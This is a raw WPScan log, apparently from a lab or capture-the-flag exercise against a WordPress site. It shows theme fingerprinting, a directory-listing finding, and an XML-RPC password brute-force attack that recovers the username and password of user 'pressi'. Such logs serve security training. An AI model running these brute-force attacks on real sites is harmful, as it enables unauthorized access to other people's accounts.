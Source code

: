 ```
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:03 <=======================================================================================================> (702 / 702) 100.00% Time: 00:00:03
[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass                                                                                                                                                            
Trying pressi / caitlyn Time: 00:00:19 <                                                                                                       > (2980 / 14347372)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: pressi, Password: dumbass

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 22 10:15:26 2024
[+] Requests Done: 4424
[+] Cached Requests: 7
[+] Data Sent: 1.909 MB
[+] Data Received: 31.063 MB
[+] Memory used: 317.715 MB
[+] Elapsed time: 00:01:08
```
